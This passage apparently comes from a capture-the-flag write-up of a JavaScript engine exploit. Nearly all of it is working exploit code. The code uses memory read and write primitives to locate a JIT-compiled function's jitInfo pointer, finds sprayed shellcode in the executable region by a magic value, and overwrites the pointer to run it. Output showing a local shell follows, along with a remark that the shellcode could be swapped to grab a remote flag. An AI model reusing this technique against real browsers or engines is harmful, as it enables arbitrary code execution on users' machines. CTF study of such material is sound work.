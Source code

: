 ```js
    shellcode();
}

// workaround to make the exploit work in release and debug version
shellcode_addr = addrof(shellcode);   
while(shellcode_addr == addrof(shellcode)){
    // just block until we get the updated addr 
}
shellcode_addr = addrof(shellcode);   
console.log("[>] Function @ " + shellcode_addr.toString(16));

// Get the jetInfo pointer in the JSFunction object (JSFunction.u.native.extra.jitInfo_)
jitinfo = read64(shellcode_addr + 0x28n);
console.log("[>] Jitinfo @ " + jitinfo.toString(16));

// Dereference pointer to get RX Region
rx_region = read64(jitinfo & 0xffffffffffffn);
console.log("[>] Jit RX @ " + rx_region.toString(16));


// Iterate to find magic value (since the shellcode is not at the start of the rx_region)
it = rx_region; // Start from the RX region
found = false
for(i = 0; i < 0x800; i++) {
    data = read64(it);
    if(data == 0x41414141n) {
    it = it + 8n;  // 8 byte offset to account for magic value
    found = true;
    break;
    }
    it = it + 8n;
}
if(!found) {
    console.log("[-] Failed to find Jitted shellcode in memory");
}  

shellcode_location = it;
console.log("[>] Shellcode @ " + shellcode_location.toString(16));

// Overwrite jitInfo pointer and execute modified function
write64(jitinfo, shellcode_location);
shellcode();
```

This yields a shell:

```
[>] Function @ 279b70d00860
[>] Jitinfo @ 159537965150
[>] Jit RX @ 2ed9ab64b990
[>] Shellcode @ 2ed9ab64bd30
uid=1000(xct) gid=1000(xct) groups=1000(xct)
xct@kali:/home/xct$
```

For the remote version, just replace the shellcode with something that will grab the flag – I’ll leave that as an exercise for the reader ;)